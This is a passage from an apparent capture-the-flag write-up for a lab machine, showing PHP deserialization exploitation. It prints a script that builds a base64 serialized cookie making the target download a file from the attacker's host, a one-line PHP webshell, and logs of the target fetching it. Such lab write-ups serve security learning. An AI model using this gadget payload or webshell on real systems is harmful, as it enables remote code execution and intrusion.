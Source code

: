     class AvatarInterface {
        public $tmp;
        public $imgPath;
    
        public function __wakeup() {
            $a = new Avatar($this->imgPath);
            $a->save($this->tmp);
        }
    }
    
    $avatar_interface = new AvatarInterface();
    $avatar_interface->tmp = "http://10.10.14.6/cmd.php";
    $avatar_interface->imgPath = "./cmd.php";
    $cookie = base64_encode(serialize($avatar_interface));
    echo $cookie;
    ?>
    

Running this gives a cookie:

    
    
    oxdf@hacky$ php serialized_rce_gen.php | base64 -d
    O:15:"AvatarInterface":2:{s:3:"tmp";s:25:"http://10.10.14.6/cmd.php";s:7:"imgPath";s:9:"./cmd.php";}
    oxdf@hacky$ php serialized_rce_gen.php 
    TzoxNToiQXZhdGFySW50ZXJmYWNlIjoyOntzOjM6InRtcCI7czoyNToiaHR0cDovLzEwLjEwLjE0LjYvY21kLnBocCI7czo3OiJpbWdQYXRoIjtzOjk6Ii4vY21kLnBocCI7fQ==
    

#### Exploit

I’ll make a simple webshell called `cmd.php` and host it on my webserver with
Python:

    
    
    oxdf@hacky$ cat cmd.php 
    <?php system($_REQUEST['cmd']); ?>
    oxdf@hacky$ python -m http.server 80
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
    

I’ll go into Firefox dev tools and replace my cookie with the malicious one,
and refresh `https://broscience.htb`. There’s a connection at the webserver
(actually three):

    
    
    10.10.11.195 - - [30/Mar/2023 20:38:50] "GET /cmd.php HTTP/1.0" 200 -
    10.10.11.195 - - [30/Mar/2023 20:38:50] "GET /cmd.php HTTP/1.0" 200 -
    10.10.11.195 - - [30/Mar/2023 20:38:50] "GET /cmd.php HTTP/1.0" 200 -
    

And `/cmd.php` exists on the webserver, and it works:

![image-20230330204056872](../img/image-20230330204056872.png)
